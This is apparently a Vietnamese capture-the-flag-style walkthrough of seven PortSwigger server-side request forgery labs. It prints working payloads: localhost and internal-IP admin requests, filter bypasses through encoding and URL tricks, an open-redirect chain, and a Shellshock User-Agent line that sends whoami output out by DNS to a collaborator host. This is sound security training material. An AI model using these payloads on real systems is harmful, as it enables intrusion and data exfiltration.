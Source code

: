 # Server-side request forgery

## Bài 1: Basic SSRF against the local server
>![](https://i.imgur.com/vCjx8lz.png)
<hr>


Mô tả: Chức năng `stock check` của trang web fetch data từ nguồn bên trong nội bộ, khai thác SSRF để chuyển hướng request khiến server fetch data từ trang `/admin` và trả về. Sau đó xóa user `carlos`

Kiểm tra chức năng ta thấy nó gửi value như sau đến server
```htmlembedded
<select name="stockApi">
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=1">London</option>
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=2">Paris</option>
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=3">Milan</option>
</select>
```

Mỗi option stock check sẽ gửi một đường link đến server, và server sẽ fetch từ đường link đó. Vậy để fetch trang admin ta đổi giá trị của 1 option thành `http://localhost/admin`

>![](https://i.imgur.com/8Foppxe.png)


Để xóa user `carlos` ta đổi đường dẫn thành `http://localhost/admin/delete?username=carlos`
>![](https://i.imgur.com/haMmPqz.png)


<hr>

## Bài 2: Basic SSRF against another back-end system
>![](https://i.imgur.com/SPnzOjZ.png)


Mô tả: Đề không cho trước địa chỉ IP của backend system, chỉ biết nó có dạng `192.168.0.X` và port `8080`. Ta sẽ phải scan ra và khai thác ssrf để xóa user carlos

Sử dụng Burpsuite Intruder để scan từ 1 đến 255 ta được kết quả là địa chỉ: 192.168.0.29
>![](https://i.imgur.com/DzujkrC.png)

<hr>

## Bài 3: SSRF with blacklist-based input filter
>![](https://i.imgur.com/2EGA1l0.png)


Mô tả: Nhà phát triển đã triển khai hai hệ thống phòng thủ chống SSRF yếu mà bạn sẽ cần phải vượt qua. 

Thử truyền đường dẫn như `http://localhost/`, `http://127.0.0.1` thì thấy đã bị server chặn bằng blacklist.
`"External stock check blocked for security reasons"`

Thử các alternative IP của 127.0.0.1 như là `2130706433`, `017700000001`, hoặc `127.1` thì ta thấy `127.1` có thể bypass được.
>![](https://i.imgur.com/pXRtQPm.png)

Tuy nhiên nếu truyền `/admin` vào thì lại bị chặn, thử urlencode (double) nó ta thấy có thể bypass.
`http://127.1/%2561%2564%256d%2569%256e`

Xóa user `carlos` và solve bài lab:
>![](https://i.imgur.com/ptQKLU7.png)

<hr>


## Bài 4: SSRF with filter bypass via open redirection vulnerability
>![](https://i.imgur.com/9KlB7LY.png)


Mô tả: Chức năng `stock checker` đã hạn chế chỉ cho phép truy cập vào các ứng dụng nội bộ, mục tiêu của ta là khiến nó fetch data từ trang `http://192.168.0.12:8080/admin` (không phải nội bộ) và sau đó xóa user `carlos`

Vì `stock checker` không truy cập vào các đường dẫn bên ngoài mạng nội bộ, tức là nó sẽ dùng whitelist để lọc các đường dẫn mà nó sẽ fetch, vì thế ta cần lợi dụng các chức năng cho phép redirect tới 1 đường dẫn mà ta có thể kiểm soát.

Lướt qua các request, ta thấy chức năng `Next product` nhận tham số `path` để redirect tới sản phẩm khác, tham số này ta có thể kiểm soát.
>![](https://i.imgur.com/1OyYdJR.png)


Thay `path` bằng đường dẫn tới trang mà đề cho để truy cập admin, sau đó, ta đưa request này cho chức năng `stock checker`. Nó kiểm tra và thấy đường dẫn `/product/nextProduct` thuộc ứng dụng nội bộ, nên sẽ fetch data từ đường dẫn này, tham số `path` mà ta inject sẽ điều hướng request tới một trang bên ngoài.

`stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin/delete?username=carlos`

>![](https://i.imgur.com/QJdU1fd.png)


<hr>

## Bài 5: Blind SSRF with out-of-band detection
>![](https://i.imgur.com/zWXAMpS.png)


Mô tả: Trang web sử dụng phần mềm phân tích để fetch URL được khai báo trong trường `Referer` của HTTP Header khi trang sản phẩm load. Mục tiêu của ta là khai thác để server gửi request tới Burp Collaborator server của mình.

Khi mở 1 sản phẩm bất kì, ta thấy request có chứa trường `Referer`, thay đổi giá trị của nó thành đường dẫn tới Burp Collaborator server của ta, ta thấy đường dẫn đã được fetch, và solve bài lab.
>![](https://i.imgur.com/dwD9n2H.png)

<hr>


## Bài 6: SSRF with whitelist-based input filter
>![](https://i.imgur.com/pxO7UIT.png)


Mô tả: `The developer has deployed an anti-SSRF defense you will need to bypass.`

Thử inject đường dẫn `http://localhost/admin` ta thấy nó trả về thông báo như sau
<kbd>"External stock check host must be stock.weliketoshop.net"</kbd>
Nghĩa là mọi đường dẫn của ta phải thuộc host <kbd>stock.weliketoshop.net</kbd>

Để kiểm tra xem server kiểm tra như thế nào, ta thử các trường hợp như là:
- Server kiểm tra xem host có CHỨA `stock.weliketoshop.net` ta dùng payload như là `http://localhost#stock.weliketoshop.net:8080` hay `http://stock.weliketoshop.net.our-domain` và quan sát thấy vẫn bị block
- Server thật sự kiểm tra phần host trong request: ta thử `http://xxx@stock.weliketoshop.net`
>![](https://i.imgur.com/Q1Qiewe.png)

Như hình trên ta thấy có thể chèn thêm dữ liệu vào phần `username` trong đường dẫn, và em đã chèn localhost. Để gạt bỏ phần phía sau đi ta có thể dùng fragment <kbd>#</kbd>. Tuy nhiên điều đó làm thay đổi host và bị server block.

Thử encode và double encode ta thấy có thể bypass được việc kiểm tra host của server và đến được trang có admin panel khi server thực hiện fetch (phần sau fragment sẽ bị bỏ đi)
>![](https://i.imgur.com/cKnUKau.png)


>![](https://i.imgur.com/BXgAVj3.png)

<hr>

## Bài 7: Blind SSRF with Shellshock exploitation
>![](https://i.imgur.com/mQTtycP.png)

Mô tả: Trang web sử dụng công cụ phân tích để fetch đường dẫn trong trường `Referer`. Mục tiêu là sử dụng chức năng này để thực hiện `blind SSRF` gửi request tới máy 192.168.0.X:8080 trong mạng nội bộ, đồng thời sử dụng `Shellshock payload` tại 1 điểm vulnerable trong http request để khai thác lấy tên của OS user trên máy đó.

Đầu tiên thử dùng Burp Intruder brute force địa chỉ IP của máy nạn nhân, nhưng tất cả kết quả trả về đều như nhau.

Chuyển sang tìm kiếm điểm khai thác ssrf lấy os user name, em sử dụng `Collaborator everywhere` hỗ trợ. Sau khi sử dụng lại trang web, kiểm tra scan tự động thì thấy có cảnh báo hiện lên như sau:
>![](https://i.imgur.com/OxYF3PB.png)


Đoán rằng trường `user-agent` đang bị lỗ hổng ssrf, em thử dùng payload như sau
Payload shellshock
`() { :; }; /usr/bin/nslookup $(whoami).v0w7km5k6gzs3hgzx2kjx59yrpxfl4.oastify.com`

Cặp dấu () { :; }; khiến bash shell xử lý chuỗi user-agent theo kiểu khác, nó sẽ thực hiện câu lệnh phía sau rồi lấy kết quả trả về chứ không lấy trực tiếp chuỗi. Và điều đó sẽ khiến máy nạn nhân gửi 1 request nslookup chứa kết quả lệnh `whoami`

Request DNS gửi tới máy chủ ta kèm theo username
>![](https://i.imgur.com/uwYGdlL.png)


Submit là ta solve
>![](https://i.imgur.com/UgmGKP1.png)


<hr>

